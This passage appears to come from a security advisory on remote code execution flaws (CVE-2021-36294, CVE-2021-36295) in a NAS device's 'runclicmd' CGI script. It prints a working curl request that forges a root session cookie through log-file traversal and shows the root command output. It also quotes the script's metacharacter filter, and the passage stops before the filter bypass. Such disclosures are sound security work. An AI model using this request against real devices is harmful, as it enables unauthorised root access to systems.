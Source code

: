 ### Suggested fix
Just bump ```secret.txt``` to a 10-digit value, which ought to render bruteforcing impossible.

CVE-2021-36294: Remote code execution as root
-----------------------------
The file ```/nas/http/bin/runclicmd``` checks whether the advertised user is root:
```shell
uid=`id -u 2>/dev/null`
```

If so, he may run any command by skipping all checks:
```shell
if [ $uid != "0" ]
then
    ...
fi

/bin/sh -c "$command_line" 2>&1 | fold -s -$width 2>&1
```

Thus, by faking a root cookie we get a remote code execution:
```
$ curl -k -s 'https://xxx/cgi-bin/runclicmd?command_line=id --cookie='Ticket=time&../logs/access_log&ip&xx.xx.xx.xx&last&../logs/access_log&idle&&hash&xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx&user&root&useraccess&&type&User&persists&&expires&99999999999999999999999'
uid=0(root) gid=0(root)
groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```


CVE-2021-36295: Remote code execution as unprivileged user by bypassing filters
---------------------------------------------------------------
Still in ```/nas/http/bin/runclicmd```, various checks are performed if the user is anyone but root:
```shell
command_line=$(echo $command_line| tr -d "\n" )
if [ $uid != "0" ]
then
    if echo "$command_line" | grep -q "[\`\;\|\&(<>]"
    then
        echo "$command_line: Special characters (\`;|&(<>) not permitted."
        exit 0
    fi

    # Get command name
    command=`echo $command_line | cut -f1 -d' ' 2>/dev/null`
    base_name=`basename $command`
    if [ "$base_name" != "man" ]
    then
        if [ ! -x "$NAS_DB/bin/$base_name" -a ! -x "$NAS_DB/sbin/$base_name" ]
        then
            echo "$command: command not found."
            exit 0
        fi
    fi
fi
```
